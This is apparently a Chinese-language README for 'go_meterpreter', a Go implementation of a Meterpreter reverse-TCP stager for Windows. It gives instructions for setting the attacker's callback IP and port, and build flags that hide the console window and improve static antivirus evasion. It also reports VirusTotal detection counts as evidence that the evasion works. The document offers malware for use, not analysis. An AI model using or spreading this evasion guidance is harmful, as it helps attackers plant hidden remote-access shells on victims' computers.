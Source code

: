 # go_meterpreter
Golang实现的x86下的Meterpreter reverse tcp

做静态免杀实验，通过代码修改自[EGESPLOIT](https://github.com/EgeBalci/EGESPLOIT) 这个开源项目。单独实现主要在于减小程序编译后体积。目前编译后的大小在1.2M左右。

## 使用方法

修改go_meterpreter.go中125行代码 s := "http://192.168.121.131:8989" IP和端口修改为自己的地址。然后就可以go build了。
'''
set GOARCH=386
go build -ldflags="-H windowsgui -w"   

'''
注意上面参数中没有-s，因为实际测试，使用这种方式build后的程序免杀效果会好一些。如果直接go build，程序会有窗口，同时大小也在1.6M左右。

## 说明

加入了Bypass AV的代码，我在刚写好的时候上传到VT，查杀结果位8/62。VT上有超过70个引擎，62个应该是加入BypassAV代码起的作用。今天最新经过编译查杀结果为20/70。

VT检测结果地址：[https://www.virustotal.com/gui/file/f8ff4acac418e6cdc326d0139ba2bdb9fce32558985962cf8303fcc97b9e47fb/detection](https://www.virustotal.com/gui/file/f8ff4acac418e6cdc326d0139ba2bdb9fce32558985962cf8303fcc97b9e47fb/detection)

另外，在使用这个的过程中，Windows10中自带的杀毒软件会拦截。会被动态行为发现。这里仅是过静态查杀测试。

